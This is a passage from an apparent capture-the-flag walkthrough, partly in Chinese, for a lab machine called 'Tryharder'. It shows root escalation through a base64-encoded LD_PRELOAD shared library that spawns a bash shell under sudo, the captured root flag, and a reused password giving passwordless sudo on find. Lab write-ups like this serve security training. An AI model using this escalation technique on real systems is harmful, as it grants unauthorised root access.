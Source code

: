 ```bash
(remote) xiix@Tryharder:/home/xiix$ echo I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDxzdGRsaWIuaD4KCl9fYXR0cmlidXRlX18oKGNvbnN0cnVjdG9yKSkKdm9pZCBpbml0KCkKewogICAgcHV0cygiSGVsbG8gZHluYW1pYyBsaW5rYWdlIHdvcmxkISIpOwogICAgdW5zZXRlbnYoIkxEX1BSRUxPQUQiKTsKICAgIHN5c3RlbSgiL2Jpbi9iYXNoIik7Cn0K | base64 -d
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor))
void init()
{
    puts("Hello dynamic linkage world!");
    unsetenv("LD_PRELOAD");
    system("/bin/bash");
}
(remote) xiix@Tryharder:/home/xiix$ echo I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDxzdGRsaWIuaD4KCl9fYXR0cmlidXRlX18oKGNvbnN0cnVjdG9yKSkKdm9pZCBpbml0KCkKewogICAgcHV0cygiSGVsbG8gZHluYW1pYyBsaW5rYWdlIHdvcmxkISIpOwogICAgdW5zZXRlbnYoIkxEX1BSRUxPQUQiKTsKICAgIHN5c3RlbSgiL2Jpbi9iYXNoIik7Cn0K | base64 -d > inject.c
(remote) xiix@Tryharder:/home/xiix$ gcc -shared -fPIC -o inject.so inject.c
(remote) xiix@Tryharder:/home/xiix$ sudo LD_PRELOAD=/home/xiix/inject.so /usr/bin/whoami
Hello dynamic linkage world!
root@Tryharder:/home/xiix# whoami
root
```

## FLAG - ROOT

```flag title="/root/root.txt"
Flag{7ca62df5c884cd9a5e5e9602fe01b39f9ebd8c6f}
```

## Wrong way

是不是感觉哪里不对？不对就对了，步子迈大了

`Y0U_5M4SH3D_17_8UDDY` 也是用户 `pentester` 的密码

```bash
(remote) www-data@Tryharder:/tmp$ su pentester
Password:
pentester@Tryharder:/tmp$ whoami
pentester
```

并且其 sudo 信息为

```bash
pentester@Tryharder:/tmp$ sudo -l
Matching Defaults entries for pentester on tryharder:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pentester may run the following commands on tryharder:
    (ALL : ALL) NOPASSWD: /usr/bin/find
```
